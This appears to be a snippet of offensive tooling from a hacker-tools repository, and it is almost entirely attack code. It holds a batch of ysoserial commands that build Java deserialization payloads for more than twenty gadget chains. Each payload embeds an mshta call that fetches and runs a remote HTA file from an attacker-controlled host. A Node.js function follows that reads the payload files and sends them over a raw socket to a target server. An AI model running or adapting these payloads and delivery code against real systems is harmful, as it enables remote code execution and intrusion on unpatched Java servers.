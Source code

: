 ```
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections2.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections3 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections3.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections4 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections4.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections5.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections6.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar C3P0 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' >C3P0.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar BeanShell1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > BeanShell1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Clojure 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Clojure.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > CommonsBeanutils1
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Groovy1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Groovy1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Hibernate1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Hibernate1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Hibernate2 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Hibernate2.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar JBossInterceptors1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > JBossInterceptors1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar JSON1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > JSON1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar JavassistWeld1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > JavassistWeld1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Jdk7u21 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Jdk7u21.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar MozillaRhino1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > MozillaRhino1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Myfaces1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Myfaces1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Myfaces2 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Myfaces2.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar ROME 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > ROME.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Spring1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Spring1.bin
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar Spring2 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > Spring2.bin


var net = require('net'),
	fs = require('fs'),
	oTmp = {"port": 8088,"host":"192.168.10.70",timeout:5000},
	szPath = "~/safe/top20/metasploit-framework/tmp/",
	szHd = fs.readFileSync(szPath + "post.txt").toString();

function fnSend(s)
{
	s = fs.readFileSync(szPath + s);
	var client = net.createConnection(oTmp,function()
	{
		client.write(szHd.replace(/277/gmi, s.length + 1));
		client.write(s);
		// client.end();
	});
}	

```